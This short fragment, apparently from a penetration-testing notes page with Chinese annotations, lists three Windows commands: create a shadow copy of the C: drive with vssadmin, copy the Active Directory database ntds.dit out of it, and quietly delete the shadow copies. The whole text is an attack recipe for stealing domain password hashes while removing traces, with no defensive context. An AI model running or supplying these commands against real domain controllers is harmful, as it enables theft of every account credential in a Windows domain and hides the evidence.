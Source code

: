 	创建C盘卷影拷贝
	>vssadmin create shadow /for=c:
	复制ntds.dit
	>copy {Shadow Copy Volume Name}\windows\NTDS\ntds.dit c:\ntds.dit
	删除拷贝
	>vssadmin delete shadows /for=c: /quiet